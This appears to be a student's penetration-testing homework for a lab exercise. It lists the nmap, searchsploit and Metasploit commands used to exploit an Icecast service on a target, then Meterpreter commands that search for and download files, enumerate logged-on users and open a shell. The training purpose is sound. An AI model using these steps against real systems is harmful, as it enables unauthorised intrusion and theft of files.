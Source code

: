 # Activity: Penetration Test Engagement/ Homework 17
Nicole Kemp

April 5th 20222


### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run

   - Run the command that performs a search for the `secretfile` textfile on the target.

     > Answer: search -f *secretfile*.txt
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download 'c:/Users/IEuser/Documents/Drinks.recipe.txt'

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell 

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
